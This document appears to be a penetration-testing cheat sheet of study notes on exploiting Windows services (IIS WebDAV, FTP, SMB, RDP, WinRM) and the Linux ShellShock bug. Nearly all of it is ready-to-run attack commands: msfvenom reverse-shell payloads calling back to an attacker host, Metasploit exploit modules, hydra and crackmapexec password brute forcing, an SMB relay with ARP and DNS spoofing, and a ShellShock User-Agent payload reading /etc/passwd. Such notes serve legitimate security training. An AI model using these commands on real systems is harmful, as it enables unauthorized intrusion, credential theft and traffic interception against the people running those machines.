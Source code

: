# Summary

- [[Exploitation#Windows OS|Windows OS]]
	- [[Exploitation#IIS Server|IIS Server]]
	- [[Exploitation#SMB|SMB]]
	- [[Exploitation#RDP|RDP]]
	- [[Exploitation#WinRM|WinRM]]
- [[Exploitation#Linux OS|Linux OS]]
	- [[Exploitation#CVE-2014-6271 (ShellShock)|ShellShock]]



# Windows OS

## IIS Server

**Wonderful article**: https://medium.com/@ennoukhbadr/webdav-penetration-351d59ac9859

Supported **executable** file extensions :
- .asp
- .aspx
- .config
- .php

**Davtest** to check which extension can be executed on the server :
```bash
davtest -url 'http://<IP>/webdav/' -auth 'admin:password_123321'
```

**Cadaver** to connect, upload, remove, ... :
```bash
# Connect then use 'put' to upload a malicious file
cadaver http://<IP>/webdav/
```

Of course, we can use **Metasploit** : 
```bash
# For asp reverse shell :
use exploit/windows/iis/iis_webdav_upload_asp

# Set options :
set PATH /webdav/whatever.asp (IMPORTANT !)
set RHOSTS <IP>
set HttpUsername
set HttpPassword
```

### Microsoft FTP

If you can modify the website thanks to FTP, you can upload a `.asp` or `.aspx` file on the web server to gain a reverse shell.

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=1234 -f asp > shell.aspx
```

## SMB

Try to find valid credentials with bruteforcing `Administrator` account : 
```bash
# With Metasploit Module :
use auxiliary/scanner/smb/smb_login

set RHOSTS <IP>
set PASS_FILE /path/to/wordlist
set SMBUser Administrator
set STOP_ON_SUCCESS true
```

Then, create a malicious file (reverse shell) with **MSFvenom**: 
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.41.3 LPORT=1234 -f exe -o payload.exe
```

Upload your shell with **smbclient** and execute it with **psexec.py** :
```bash
psexec.py Administrator@10.2.20.249 "C:\Users\Administrator\Desktop\payload.exe"
```

You can also **pop a shell** with : 
```bash
# PSexec.py
psexec.py Administrator@10.2.20.249 cmd.exe

# Metasploit Module (Meterpreter Session !):
use exploit/windows/smb/psexec

set RHOSTS <IP>
set SMBUser Administrator
set SMBPass Password1 # You can also Pass The Hash !
```

### SMB Relay Attack

> An SMB relay attack is a type of network attack where an attacker
intercepts SMB (Server Message Block) traffic, manipulates it, and relays
it to a legitimate server to gain unauthorized access to resources or
perform malicious actions.

1. Configure SMB Relay Exploit :
```
msfconsole
use exploit/windows/smb/smb_relay
set SRVHOST <YOUR-IP>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <YOUR-IP>
set SMBHOST <TARGET>
exploit
```

2. Configure **dnsspoof** in order to redirect the victim to our Metasploit system every time there's an SMB connection to any host in the domain :
```
echo "<YOUR-IP> *.DOMAIN.TLD" > fake_dns.txt
```

3. Run **DnsSpoof** :
```
dnsspoof -i eth1 -f dns
```

4. Enable the IP forwarding : 
```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

5. Start the **ARP Spoof attack** :
```
arpspoof -i eth1 -t 172.16.5.5 172.16.5.1
arpspoof -i eth1 -t 172.16.5.1 172.16.5.5
```

6. Wait for connections.


## RDP

Sometimes RDP doesn't run on the default port, so check :
```bash
use auxiliary/scanner/rdp/rdp_scanner 
```

- Bruteforce :
```bash
hydra -L Administrator -P /opt/rockyou.txt 10.2.16.41 rdp -v -V
```

- Connection : 
```bash
xfreerdp [/d:domain] /u:<username> /p:<password> /v:<IP>[:PORT]
```


## WinRM

- Bruteforce :
```bash
# Metasploit Module
use auxiliary/scanner/winrm/winrm_login

set RHOSTS <IP>
set PASS_FILE 
set USER_FILE
set VERBOSE true/false

# CrackMapExec :
crackmapexec winrm <IP> -u Administrator -p /opt/rockyou.txt
```

- Connect to the target :
```bash
# Evil-WinRM :
evil-winrm.rb -i 10.2.21.115 -u Administrator -p password

# Metasploit Module :
use exploit/windows/winrm/winrm_script_exec

set RHOSTS <IP>
set USERNAME
set PASSWORD
set FORCE_VBS true 
```


# Linux OS


## CVE-2014-6271 (ShellShock)

### Description

>Shellshock (CVE-2014-6271) is the name given to a family of vulnerabilities in
the Bash shell (since V1.3) that allow an attacker to execute remote arbitrary
commands via Bash, consequently allowing the attacker to obtain remote
access to the target system via a reverse shell.

### Proof Of Concept

Links :
- https://beaglesecurity.com/blog/vulnerability/shellshock-bash-bug.html
- https://github.com/opsxcq/exploit-CVE-2014-6271


If you find a `.cgi` script on the web server, check if it is vulnerable to *ShellShock* with **NSE** :
```bash
nmap --script http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" demo.ine.local
```

Then, inject your payload in the `User-Agent:` field :
```bash
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```


You can also use **Metasploit** :
```bash
use exploit/multi/http/apache_mod_cgi_bash_env_exec

set RHOSTS <IP>
set TARGETURI /script.cgi
```


